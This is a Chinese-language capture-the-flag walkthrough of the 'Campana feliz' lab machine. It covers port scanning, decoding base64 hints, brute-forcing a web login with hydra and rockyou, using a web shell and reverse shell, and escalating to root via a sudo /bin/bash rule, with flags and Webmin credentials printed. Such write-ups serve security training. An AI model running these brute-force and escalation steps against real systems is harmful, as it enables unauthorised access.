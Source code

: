 # Campana feliz

2025.02.26 https://thehackerslabs.com/campana-feliz/

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
8088/tcp  open  radan-http
10000/tcp open  snet-sensor-mgmt
```

先访问 http://192.168.5.40:8088/ 空页面，源码中有注释：

```
<!-- Q2FtcGFuYSBzb2JyZSBjYW1wYW5hCgpZIHNvYnJlIGNhbXBhbmEgdW5hCgpBc8OzbWF0ZSBhIGxhIHZlbnRhbmEKClZlcsOhcyBlbCBuacOxbyBlbiBsYSBjdW5hCg== -->
<!-- Q2FtcGFuYSBDYW1wYW5hIENhTXBBTkEgQ2FNcGFOYQo= -->
```

进行 base64 解码得到：

```
Campana sobre campana

Y sobre campana una

Asómate a la ventana

Verás el niño en la cuna
```

```
Campana Campana CaMpANA CaMpaNa
```

西班牙语进行翻译，在说一个名字 Campana 可能是个登陆用户名。gobuster 扫描 8088 发现页面 http://192.168.5.40:8088/shell.php 需要用户名和密码进行登陆。

访问 10000 端口跳转到 https://192.168.5.40:10000/ 显示的是 Webmin ，尝试了默认的 root 和 admin 凭据都不能登陆。

尝试了用这几个单词作为密码 Campana Campana CaMpANA CaMpaNa 在 8088 页面登陆 Campana 用户，但是都不对，只好尝试使用 rockyou：

```
hydra -t 32 -l campana -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -s 8088 -f http-post-form "/shell.php:username=^USER^&password=^PASS^:F=Username or password invalid"

[8088][http-post-form] host: 192.168.5.40   login: campana   password: lovely
```

登陆成功，发现可以执行命令，执行反弹到 kali 上，发现 bob 用户，需要提权，sudo -l 发现：

```
(ALL) NOPASSWD: /bin/bash
```

直接提升到 root 权限,读取 user flag 和 root flag：

```
www-data@debian:/home$ sudo -u root /bin/bash
root@debian:/home# cd bon
bash: cd: bon: No such file or directory
root@debian:/home# cd bob
root@debian:/home/bob# ls
user.txt
root@debian:/home/bob# cat user.txt
R1aZp7qLdV8MnYX9bQ2wNC5kW3TYoJV
root@debian:/home/bob# cd /root
root@debian:~# ls
root.txt  webmin-1.920	webmin-1.920.tar.gz
root@debian:~# cat root.txt
u5T7vCnO1pQ2zRwX8gLdN6bJyK3mVxY
```

最后在执行命令的时候也可以读取到 webmin 的配置文件从而获得 webmin 的登陆凭据：

```
root@debian:/opt# cat 'CMS Webmin.txt'
url: https://IP:10000
login: santaclaus / FelizNavidad2024
```

然后在左侧 Tools -> CommandShell 中也可以执行命令，不过这里估计想不到有这么个用户凭据文件。
